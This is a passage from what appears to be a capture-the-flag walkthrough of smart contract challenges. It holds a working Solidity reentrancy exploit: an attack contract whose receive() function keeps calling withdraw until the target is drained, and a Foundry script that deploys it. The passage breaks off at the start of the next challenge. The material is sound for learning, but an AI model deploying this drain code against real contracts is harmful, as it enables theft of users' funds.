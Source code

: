 ```foundry
    function _withdraw(uint256 _amount) external {
        reentrance.withdraw(_amount);
    }

    // function _balanceOf() internal view returns(uint256){
    //     return reentrance.balanceOf(address(reentrance));
    // }

    receive() external payable {
        if (address(reentrance).balance > 0) {
            uint256 amount = msg.value; // keep withdrawing same chunk
            if (amount > address(reentrance).balance) {
                amount = address(reentrance).balance;
            }
            reentrance.withdraw(amount);
        }
}
}

contract ReentrancySolution is Script {
    Reentrance reentrance = Reentrance(0x73a140e2c386C2c308b38cDB44823d35cb380a5B);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        Attack attack = new Attack(reentrance);

        console.log("Balance of attacker: ", address(attack).balance);
        console.log("Balance of contract: ", address(reentrance).balance);

        
        attack._donate{value: 0.001 ether}();
        attack._withdraw(0.001 ether);

        console.log("Balance of attacker: ", address(attack).balance);
        console.log("Balance of contract: ", address(reentrance).balance);
        vm.stopBroadcast();
    }
}
```
**TIP : Better use CEI or Re-entrancy guards from Openzeppelin**

---

# #Elevator

**Challenge :** I should reach the top floor of the building , i.e., I should make `top` variable **True** 

**Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
```